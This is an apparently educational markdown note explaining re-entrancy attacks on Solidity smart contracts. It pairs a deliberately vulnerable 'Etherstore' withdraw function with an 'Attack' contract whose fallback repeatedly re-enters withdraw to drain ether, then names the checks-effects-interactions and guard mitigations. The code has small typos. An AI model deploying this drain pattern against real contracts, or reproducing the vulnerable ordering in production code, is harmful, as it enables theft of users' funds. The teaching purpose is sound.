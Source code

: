 ## Re-entrancy

Re-entrancy attack can be seen as situation where a contract B calls back into another contract A while Contract A is still executing some code logic.
On a high overview, reentrancy attacks majorly happens when state changes are not updated before making external calls, thereby enabling an external contract to keep entering back into an executing function and possibly draining the funds in the contract

```

pragma solidity 0.6.8;

contract Etherstore{
    mapping(address => uint) public balances:

    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public{
        require(balances[msg.sender] >= _amount);

        (bool sent,) = msg.sender.call{value: _amount}("");
        require(sent, "failed to send ether");
        balances[msg.sender]-= _amount;
    }

    function getBalance() public view returns (uint){
        return address(this).balance;
    }
}


/*Attacking Contract*/

pragma solidity 0.6.8;

contract Attack{
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) public{
        etherStore = EtherStore(_etherStoreAddress);
    }

    fallback() external payable{
        if (address(etherStore).balance >= 1 ether){
            etherStore.withdraw(1 ether);
        }
    }

    function attack() external payable{
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
}

```

#### Mitigation
A common pattern to use against re-entrancy is the check-effect-pattern which ensures that state changes are updated before making external calls
Another solution is using a guard, which ensures that a single function is run to completion before executing another
